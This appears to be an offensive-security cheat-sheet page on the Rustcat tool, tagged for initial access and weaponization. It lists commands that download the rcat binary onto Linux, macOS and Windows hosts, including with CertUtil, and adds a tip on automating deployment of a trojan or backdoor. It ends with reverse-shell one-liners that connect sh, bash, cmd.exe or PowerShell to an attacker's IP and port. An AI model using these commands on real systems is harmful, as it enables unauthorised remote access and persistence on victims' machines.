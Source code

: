 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - cross-platform
  - rustcat
---
```

# Rustcat

## 01 - Download Pre-compiled Payload

> [!TIP]
> You can make an automated script to deploy a trojan horse or backdoor during the initial access and maintaining access.

### 1.1 - Linux

```
$ wget -qO rcat https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-linux-x86_64

$ curl -so rcat https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-linux-x86_64
```

### 1.2 - OSX

```
$ wget -qO rcat https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-darwin-aarch64

$ curl -so rcat https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-darwin-aarch64
```

```
$ wget -qO rcat https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-darwin-x86_64

$ curl -so rcat https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-darwin-x86_64
```

### 1.3 - Windows

```
C:\> CertUtil.exe -urlcache -split -f https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-win-x86_64.exe rcat.exe

C:\> curl.exe -o rcat.exe https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-win-x86_64.exe
```

```
PS C:\> Invoke-WebRequest -Uri https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-win-x86_64.exe -OutFile rcat.exe
```

## 02 - Reverse Shell

```
$ ./rcat c -s </bin/sh | /bin/bash> <attacker_IP> <attacker_PORT>
```

```
C:\> .\rcat.exe c -s <cmd.exe | powershell.exe> <attacker_IP> <attacker_PORT>
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xB - Shell Handler/Cross Platform/Manual/Netcat Variants/Rustcat]]
